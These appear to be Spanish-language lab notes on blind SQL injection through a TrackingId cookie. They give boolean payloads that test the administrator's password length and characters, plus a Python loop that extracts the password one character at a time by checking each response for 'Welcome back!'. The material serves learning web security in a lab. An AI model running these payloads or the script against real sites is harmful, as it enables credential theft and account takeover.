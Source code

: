 ahora podemos aclarar además, para atentar con una seccion partcicualr con un:
where username='administrator' 
```
 trackingId=RuR0Bwtk0iBFPd9l' and (select 'a' from users whwere username='administrator')='a;
```
ahora quiero seleccionar de un solo una parte del campo, en vez de seleccionar por 'a' seleccionames por un elemento del substring 'substring(username1,1)' seleccionando letra por letra donde username es administrator
```
and (select substring(username,1,1) from users where username='administrator')='a;
```
ahora también podemos ir seleccionando carácter por carácter lo que nos interesa:
```
and (select substring(password,1,1) from users where username='administrator')='a;
```

## Scriptin en python
También puedo filtrar la contraseña por la cantidad de caracteres:
```
and (select substring(password,1,1) from users where username='administrator' and length(password)>=15)='a;
```
ahí estoy filtrando si es mayo o igual de 15 caracteres, sabiendo la cantidad de caracteres hacemos el bucle 
```python
 for position in range(1, 21):

        for character in characters:

            cookies = {

                'TrackingId': "g21O3GCZ7qFu2lWa' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),

                'session': 'dUAzekVjnYpnTbJKLjbYQUHIlCKWgzpK'

            }

  

            r = requests.get(main_url, cookies=cookies)

  

            if "Welcome back!" in r.text:

                password += character

                break
```
primero definimos el rango que va a tener en un bucle
después marcamos los caracteres
cookies es la variable que marca el welcome back que vemos el burpsuite, donde
la r tramitamos una request por cada intento
el if es para detectar si el caracter es válido